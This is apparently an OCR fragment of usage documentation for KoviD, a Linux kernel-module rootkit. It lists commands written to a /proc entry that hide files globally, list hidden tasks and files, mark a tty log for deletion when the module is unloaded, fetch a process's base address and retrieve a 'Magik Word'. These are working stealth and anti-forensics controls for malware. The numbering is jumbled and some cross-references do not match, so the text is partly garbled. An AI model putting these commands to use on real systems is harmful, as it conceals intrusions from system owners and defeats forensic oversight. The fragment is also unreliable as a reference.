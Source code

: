 ## 11 Hide README.txt globally - hide all instances of README.txt

### bypass #10 and #11

echo "-g README.txt" >/proc/867530

## 13 Hide ALL files named README.txt - this bypass #11

echo "-a README.txt" >/proc/867530

## 14 Undo #12 - this bypass #11

echo "-d README.txt" >/proc/867530

## 15 List hidden tasks - debug mode only

echo "-s" >/proc/867530
dmesg

## 16 List hidden files and directories - debug mode only

echo "-l" >/proc/867530
dmesg

## 17 Mark tty log file to be removed when KoviD is rmmod'ed

echo "-t0" >/proc/867530

## 18 Undo #15

echo "-t1" >/proc/867530

## 19 Fetch the base address of a running process by PID number

echo "-b `PID`">/proc/867530
cat /proc/867530

## 20 Fetch Magik Word

cat /proc/867530
